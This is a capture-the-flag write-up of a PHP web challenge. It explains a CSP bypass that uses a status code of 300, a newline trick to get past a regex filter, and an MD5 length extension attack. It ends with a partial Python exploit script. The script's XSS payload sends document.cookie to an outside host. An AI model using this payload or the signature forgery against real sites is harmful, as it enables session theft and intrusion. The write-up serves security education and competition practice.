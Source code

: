 ```php
        setcookie($p1, $p2);
    }
    elseif ($n === "body") {
        if(preg_match("/<.*>/", $p1))
            continue;
        echo $p1;
        echo "\n<br />\n";
    }
    elseif ($n === "hello") {
        echo "Hello, World!\n";
    }
}
```

Also, the CSP `default-src 'self'; script-src 'none'; base-uri 'none';` is very strict. It's too difficult to execute javascript with that constraint. Therefore, the idea here is to abuse `header` or `setcookie` to somehow strip out this CSP.

But `header` here has some limitations: the key length and some chacracter like `:-` are not allowed. It's too hard to do any tricks here.

Let's check [header()'s doc](https://www.php.net/manual/en/function.header.php) first.

>  There are two special-case header calls. The first is a header that starts with the string "HTTP/" (case is not significant), which will be used to figure out the HTTP status code to send....

That is cool, so we can probably manipulate the response code. After a few tries, we accidently found some status code (103, 123, 300 ...) will lead to no CSP at all. This is due to [nginx's behavior](https://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header). You can see read [our discussion here on twitter](https://twitter.com/stereotype32/status/1226316682227900416). The community is just amazing!

Next, we have to bypass the `preg_match("/<.*>/", $p1)` filter. This one is simple as we can inject newline before the `>`.

The last one is the md5 length extension attack. Since the API only provides signature for one single command, we have to extend it to  two commands (header and body). The part is done by @nkhg :)

Here is the full payload. I don't know why `fetch` won't work in remote headless Chrome, so I use `<img>` instead.

```python
#!/usr/bin/env python3                                                                                                                                                                         
import requests, hashlib, re, base64

import base64
import hashpumpy

def b64e(s):
    return base64.b64encode(s.encode()).decode()

def b64d(s):
    return base64.b64decode(s.encode())

s = requests.session()

target = '|' + ','.join([
    b64e('header'),
    b64e('HTTP/1.1'),
    b64e('300'),
]) + '|' + ','.join([
    b64e('body'),
    b64e('<img id="img"\n></img\n><script\n>document.getElementById("img").src="//255.255.255.255:13337/?"+document.cookie;</script\n>'),
    b64e('dontCare')
])
tmp = target.encode('ascii')
```